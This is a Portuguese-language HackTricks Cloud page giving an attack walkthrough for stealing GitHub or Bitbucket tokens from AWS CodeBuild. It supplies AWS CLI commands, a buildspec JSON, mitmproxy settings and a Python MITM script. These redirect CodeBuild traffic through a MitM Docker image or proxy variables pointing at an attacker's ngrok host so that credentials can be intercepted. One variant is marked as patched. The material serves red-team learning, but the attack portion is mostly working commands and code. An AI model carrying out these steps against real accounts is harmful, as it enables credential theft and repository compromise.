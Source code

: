 # AWS Codebuild - Vazamento de Token

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Recuperar Tokens Configurados do Github/Bitbucket

Primeiro, verifique se há credenciais de origem configuradas que você poderia vazar:
```bash
aws codebuild list-source-credentials
```
### Via Imagem Docker

Se você descobrir que a autenticação, por exemplo, para o Github está configurada na conta, você pode **extrair** esse **acesso** (**token GH ou token OAuth**) fazendo com que o Codebuild **utilize uma imagem Docker específica** para executar a compilação do projeto.

Para isso, você poderia **criar um novo projeto Codebuild** ou alterar o **ambiente** de um existente para definir a **imagem Docker**.

A imagem Docker que você poderia usar é [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta é uma imagem Docker muito básica que definirá as **variáveis de ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Isso permitirá que você intercepte a maioria do tráfego do host indicado em **`https_proxy`** e **`http_proxy`** e confie no CERT SSL indicado em **`SSL_CERT_FILE`**.

1. **Criar e Fazer Upload da sua Própria Imagem Docker MitM**
* Siga as instruções do repositório para definir o endereço IP do seu proxy e configurar seu certificado SSL e **construir a imagem Docker**.
* **NÃO DEFINA `http_proxy`** para não interceptar solicitações ao endpoint de metadados.
* Você poderia usar o **`ngrok`** como `ngrok tcp 4444` para definir o proxy para o seu host.
* Depois de construir a imagem Docker, **faça o upload para um repositório público** (Dockerhub, ECR...)
2. **Definir o Ambiente**
* Crie um **novo projeto Codebuild** ou **modifique** o ambiente de um existente.
* Configure o projeto para usar a **imagem Docker gerada anteriormente**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Configurar o Proxy MitM em seu host**

* Conforme indicado no **repositório do Github**, você poderia usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
A versão do **mitmproxy utilizada foi a 9.0.1**, foi relatado que com a versão 10 isso pode não funcionar.
{% endhint %}

4. **Execute a compilação & capture as credenciais**

*   Você pode ver o token no cabeçalho **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Isso também poderia ser feito a partir do aws cli com algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via protocolo HTTP~~

{% hint style="success" %}
**Essa vulnerabilidade foi corrigida pela AWS em algum momento na semana de 20 de fevereiro de 2023 (creio que na sexta-feira). Portanto, um atacante não pode mais explorá-la :)**
{% endhint %}

Um atacante com **permissões elevadas em um CodeBuild poderia vazar o token do Github/Bitbucket** configurado ou, se as permissões fossem configuradas via OAuth, o **token OAuth temporário usado para acessar o código**.

* Um atacante poderia adicionar as variáveis de ambiente **http\_proxy** e **https\_proxy** ao projeto CodeBuild apontando para sua máquina (por exemplo `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Em seguida, alterar a URL do repositório do github para usar HTTP em vez de HTTPS, por exemplo: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Depois, executar o exemplo básico em [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porta apontada pelas variáveis de proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Por fim, clique em **Construir o projeto**, as **credenciais** serão **enviadas em texto claro** (base64) para a porta mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Agora um atacante poderá usar o token em sua máquina, listar todos os privilégios que ele possui e (ab)usar mais facilmente do que usando o serviço CodeBuild diretamente.
{% endhint %}

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
